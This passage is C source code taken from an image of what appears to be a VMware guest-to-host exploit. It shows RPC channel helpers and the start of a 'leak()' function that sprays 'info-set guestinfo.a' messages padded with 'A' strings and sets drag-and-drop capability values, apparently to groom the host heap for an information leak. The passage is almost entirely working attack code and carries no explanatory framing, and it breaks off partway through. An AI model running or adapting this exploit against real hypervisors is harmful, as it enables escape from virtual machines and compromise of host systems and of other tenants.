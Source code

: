 ```
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd)+0x10,cmd,&res);

    channel_recv_reply_len(tmp.cookie1,tmp.cookie2,tmp.num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(tmp.cookie1,tmp.cookie2,tmp.num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_recv_finish(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to close channel\n");
        return;
    }
}
void leak(){
    struct channel chan[10];
    int res=0;
    int len,i;    
    char pay[8192];
    char *s1 = "info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *data;
    char *s2 = "info-get guestinfo.a";
    char *s21= "info-get guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s3 = "1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s4 = "tools.capability.dnd_version 4";
    char *s5 = "vmx.capability.dnd_version";
    //init data
    run_cmd(s1); // set the message len to be 0x100, so when we call info-get ,we will call malloc(0x100);
    run_cmd(s4);


    //first step 
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),&res);//strlen(s21) = 0x100
    if(!res){
        printf("fail to set len\n");
```